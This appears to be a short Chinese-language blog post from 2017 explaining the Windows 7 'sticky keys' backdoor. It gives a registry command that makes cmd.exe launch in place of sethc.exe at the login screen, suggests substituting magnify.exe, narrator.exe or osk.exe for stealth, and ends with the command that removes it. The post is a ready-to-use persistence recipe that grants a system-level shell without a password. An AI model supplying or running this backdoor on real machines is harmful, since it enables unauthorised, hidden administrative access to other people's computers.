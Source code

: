 ```yaml
---
layout:     post
title:      win7粘滞键后门
date:       2017-08-03
summary:    win7粘滞键后门
categories: web
tags:
 - 后门
 - win7
---
```


以管理员身份打开cmd.exe运行如下:

'''
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
'''

其中sethc.exe可替换成magnify.exe(放大镜)或其他(eg.narrator.exe|osk.exe),替换成更隐藏的技巧可根据下面链接自由发挥:

<a
href="https://answers.microsoft.com/en-us/windows/forum/windows_7-performance/run-command/a2632e97-c8d1-4ab3-8df2-7e70a4448267">AsULike</a>

删除后门以管理员身份打开cmd.exe运行如下即可:

'''
REG DELETE "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"
'''
